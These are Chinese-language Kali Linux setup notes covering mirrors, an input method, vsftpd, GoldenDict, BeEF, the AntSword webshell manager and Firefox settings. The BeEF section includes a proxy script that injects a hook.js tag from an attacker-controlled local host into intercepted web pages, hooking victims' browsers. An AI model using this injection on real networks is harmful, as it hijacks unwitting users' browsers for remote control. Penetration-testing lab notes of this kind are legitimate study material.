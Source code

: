 # Kali 配置

## 安装 VMware Tools

- 复制 VMware Tools \*\*\*.tar.gz 到任意目录
- 解压 tar -xzvf VMware Tools \*\*\*.tar.gz(所在目录执行)
- 进入 vmware-tools-distrib (所在目录)执行 ./vmware-install.pl
- 一直回车,直到 Enjoy，--the WMware team 安装完成

## 更新源

- 编辑：leafpad /etc/apt/sources.list (复制下面内容并保存)

```
#阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib

#清华大学
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free

#中科大
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

#东软大学
#deb http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib
#deb-src http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib

#官方源
#deb http://http.kali.org/kali kali-rolling main non-free contrib
#deb-src http://http.kali.org/kali kali-rolling main non-free contrib
```

## 安装输入法

- apt-get install fcitx
- apt-get install fcitx-googlepinyin (谷歌拼音)
- reboot (重启电脑)

## 安装和配置 ftp

- apt-get install vsftpd
- mkdir /home/ftp (新建用户目录)
- chmod 777 /home/ftp (改变文件读写权限)

* useradd -d /home/ftp -s /sbin/nologin ftp (新建用户,如果已有该用户可以用 userdel 删除)
* passwd ftp (设置密码)
* vim /etc/vsftpd.conf

```
listen=YES             #开启监听
listen_ipv6=NO
anonymous_enable=NO    #拒绝匿名访问
local_enable=YES       #允许本地用户登录
write_enable=YES       #开启可写权限
local_umask=022        #实际权限为文件原本的权限-umask
connect_from_port_20=YES
ftpd_banner=Welcome! My friends!    #可以自定义banner
chroot_local_user=YES               #防止用户访问其他目录
allow_writeable_chroot=YES          #如果用户被限定在了其主目录下，则该用户的主目录不能再具有写权限了。如果检查发现还有写权限，就会报错
userlist_deny=NO                    #拒绝访问用户列表
userlist_enable=YES                 #允许访问用户列表
userlist_file=/etc/allowed_users    #允许访问用户列表文件
seccomp_sandbox=no                  #防止各种莫名错误
xferlog_enable=YES                  #记录ftp传输过程
xferlog_file=/var/log/vsftpd.log    #ftp传输日志文件
xferlog_std_format=YES              #使用标准的ftp xferlog模式
```

- vim /etc/allowed_users (添加允许访问的用户`ftp`)
- vim /etc/ftpusers (查看禁止访问用户`删除ftp`)
- vim /etc/pam.d/vsftpd

```
针对auth required pam_shells.so的两种方案
第一种:auth required pam_nologin.so
第二种:#auth required pam_shells.so
```

## 安装 GoldenDict 翻译

- apt-get install goldendict
- 设置网络词典 http://dict.youdao.com/search?q=%GDWORD%&ue=utf8 (启用 √)
- 设置本地词典 /usr/share/goldendict/dict/词典文件夹 (递归搜索 √)
- 词典下载链接 http://download.huzheng.org/zh_CN/
- 首选项设置屏幕取词等
- **注意:主页的笔和球是否已使用**

## 配置 beef

- leafpad /usr/share/beef-xss/config.yaml

```
passwd: 密码
host: 本机ip
metasploit配置项  enable:true
```
```
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script src="http://192.168.0.148:3000/hook.js">'+
                '</script>' +
                '</head>'
            ); 
        }
    }
}
```

## 安装中国蚁剑

- 下载地址:https://github.com/AntSwordProject/AntSword-Loader
- 解压并进入文件目录,然后终端执行 **./AntSword**
- **mkdir 文件夹名字(英文名)** ⬅ 创建文件夹,并且安装时指定路径 **(用于存储数据等)**
- 安装完成后,解压的目录终端下执行 **./AntSword** 进入蚁剑界面

## Firefox ESR 汉化

- apt -y install firefox-esr-l10n-zh-cn (下载安装语言包)
- 打开火狐浏览器右上角的菜单，选择''首选项''
- 向下滑动,到达语言栏(language),点击右边的按钮
- 在 Add 左边选择框中找到 zh-cn,点击 Add 添加
- 点击“确定”，重启浏览器

## Firefox 关闭 GET 请求到 detectportal.firefox.com

- 在 firefox 地址栏输入：about:config
- 搜索:network.captive-portal-service.enabled
- 双击改为 false
